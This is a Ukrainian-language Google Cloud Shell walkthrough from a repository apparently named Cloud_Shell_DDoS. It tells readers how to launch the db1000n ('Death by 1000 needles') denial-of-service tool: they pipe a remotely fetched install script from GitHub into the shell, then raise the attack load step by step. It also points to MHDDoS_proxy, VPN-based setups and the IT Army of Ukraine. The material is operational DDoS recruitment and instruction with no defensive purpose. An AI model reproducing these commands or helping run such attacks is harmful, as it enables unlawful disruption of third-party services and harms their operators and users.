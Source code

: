 
#   Все буде Україна! 💙💛

## Бажаю вам чудового настною та гарного дня!

### Запуск «Death by 1000 needles» (db1000n)

- Для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі.
  Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною  ***після закінчення даного сеансу***.

###  Зверніть увагу   
Якщо з'єднання перервано не підключайтесь вдруге бо вийдете з **ефемерного режиму**. Краще ***завантажтесь знову***, натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до запуску **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  Для запуска «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   Якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче
```bash
./db1000n --scale 0.7
```
-   або наступну команду з ще більшим навантаженням
```bash
./db1000n
```
### Щоб переглянути навантаження на процесор використаємо команду **htop**
-   Додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та виконайте наступну команду
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=mhddos_proxy_tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>

